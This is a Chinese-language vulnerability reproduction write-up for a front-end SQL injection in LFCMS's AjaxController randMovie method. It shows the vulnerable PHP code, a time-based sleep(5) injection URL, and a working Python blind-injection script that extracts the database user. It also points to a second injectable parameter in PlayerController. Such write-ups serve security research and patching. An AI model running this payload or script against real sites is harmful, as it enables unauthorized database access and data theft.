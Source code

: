 LFCMS AjaxController.class.php 前台sql注入漏洞
==============================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

漏洞起始点位于`/Application/Home/Controller/AjaxController.class.php`文件中的`randMovie`方法，代码如下

![1.png](resource/LFCMSAjaxController.class.php前台sql注入漏洞/media/rId24.png)

第七行代码中调用了`Ajax`模型中的`randMovie`方法，同时`limit`和`category`是我们输入的可控的参数，跟进`randMovie`方法

    public function randMovie($limit=6,$category='') {
        if($category) {
            $type='and category='.$category;
        }
        $prefix=C('DB_PREFIX');
        $mlist=M()->query('SELECT * FROM `'.$prefix.'movie` AS t1 JOIN (SELECT ROUND(RAND() * ((SELECT MAX(id) FROM `'.$prefix.'movie`)-(SELECT MIN(id) FROM `'.$prefix.'movie`))+(SELECT MIN(id) FROM `'.$prefix.'movie`)) AS idx) AS t2 WHERE t1.id >= t2.idx '.$type.' ORDER BY t1.id LIMIT '.$limit);
        foreach($mlist as $key=>$value) {
            $list[$key]=D('Tag')->movieChange($value,'movie');
        }
        return $list;
    }

在这里注意到`$type`与`$limit`在`sql`语句执行时均没有被单引号包裹，直接拼接到语句当中，这里就存在了sql注入的可能，首先我们在`movie`表里放一条数据，看一下正常执行时sql语句是如何执行的

![2.png](resource/LFCMSAjaxController.class.php前台sql注入漏洞/media/rId25.png)

查看数据库日志可以得到如下`sql`语句

    SELECT * FROM `lf_movie` AS t1 JOIN (SELECT ROUND(RAND() * ((SELECT MAX(id) FROM `lf_movie`)-(SELECT MIN(id) FROM `lf_movie`))+(SELECT MIN(id) FROM `lf_movie`)) AS idx) AS t2 WHERE t1.id >= t2.idx and category=2 ORDER BY t1.id LIMIT 1

接着来尝试下进行注入，测试链接如下

    http://www.0-sec.org/index.php/Ajax/randMovie?limit=1&category=2 and sleep(5)

页面确实延迟了5秒，那么接着看一下后端数据库的语句

    SELECT * FROM `lf_movie` AS t1 JOIN (SELECT ROUND(RAND() * ((SELECT MAX(id) FROM `lf_movie`)-(SELECT MIN(id) FROM `lf_movie`))+(SELECT MIN(id) FROM `lf_movie`)) AS idx) AS t2 WHERE t1.id >= t2.idx and category=2 and sleep(5) ORDER BY t1.id LIMIT 1

基本可以判断该处存在着可用的注入点，接下来编写脚本跑一下数据库用户名试试

    import requests
    url = 'http://www.0-sec.org/index.php/Ajax/randMovie?limit=1&category=2 and '
    s = requests.session()
    result = ""
    for i in range(1,50):
        print('==========================')
        for j in range(32,127):
            payload = "if((ascii(substr((select user()),{},1))={}),sleep(5),0)".format(i,j)
            temp = url+payload
            try:
                s.get(temp,timeout=5)
            except:
                result+= chr(j)
                print(result)
                break

![3.png](resource/LFCMSAjaxController.class.php前台sql注入漏洞/media/rId26.png)

相同原理的利用点同样不止一个，如`/Application/Home/Controller/PlayerController.class.php`文件中的`down`方法调用了模型`movie`中的`getPlayerUrl`方法，该方法的`pid`参数同样可以注入

参考链接
--------

> https://xz.aliyun.com/t/7844
